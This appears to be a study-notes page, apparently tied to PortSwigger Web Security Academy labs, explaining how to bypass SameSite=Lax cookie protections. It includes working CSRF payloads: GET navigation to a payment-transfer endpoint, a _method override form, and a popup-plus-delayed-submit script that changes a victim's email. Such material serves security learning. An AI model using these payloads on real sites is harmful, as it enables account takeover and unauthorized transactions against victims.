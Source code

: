 # Bypassing SameSite Lax restrictions

### Table of content

- [Bypassing SameSite Lax restrictions using GET requests](#bypassing-samesite-lax-restrictions-using-get-requests)
- [Bypassing SameSite Lax restrictions with newly issued cookies](#bypassing-samesite-lax-restrictions-with-newly-issued-cookies)

## Bypassing SameSite Lax restrictions using GET requests

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:

Simple GET:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Args provided by GET method, received by the servers as a POST method:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000&_method=POST';
</script>
```

Args provided as Post method, received by the servers as a GET method

Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the _method parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

Other frameworks support a variety of similar parameters.

## Bypassing SameSite Lax restrictions with newly issued cookies

Cookies with Lax SameSite restrictions aren't normally sent in any cross-site POST requests, but there are some exceptions.

As mentioned earlier, if a website doesn't include a SameSite attribute when setting a cookie, Chrome automatically applies Lax restrictions by default.

However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests.

As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

*This two-minute window does not apply to cookies that were explicitly set with the SameSite=Lax attribute.*

Why SSO Works Like This: SSO often involves redirects to an authentication server where a user logs in. If SameSite Lax immediately restricted cookies after login, it could disrupt SSO flows. SSO solutions typically set a session cookie during the authentication process, and they expect this session cookie to be included in the subsequent POST request back to the original site (to confirm successful authentication).

Therefore, this 120-second grace period allows SSO mechanisms to function correctly. During this time, the SameSite Lax restriction is not enforced for these cookies, and they can be sent with top-level POST requests, ensuring a smooth and secure Single Sign-On experience.

For example:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

This script first call :

```js
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }
```

This script open a popup on userclick interaction to refresh the token. When the token is refresh, the api make a POST call back to vuln site. This trigger a 120 sec timer where we can make POST request.

Then after the timing, script call this func to submit the POST request.

```js
    function changeEmail() {
        document.forms[0].submit();
    }
```

---

[**:arrow_right_hook: Back home**](/README.md)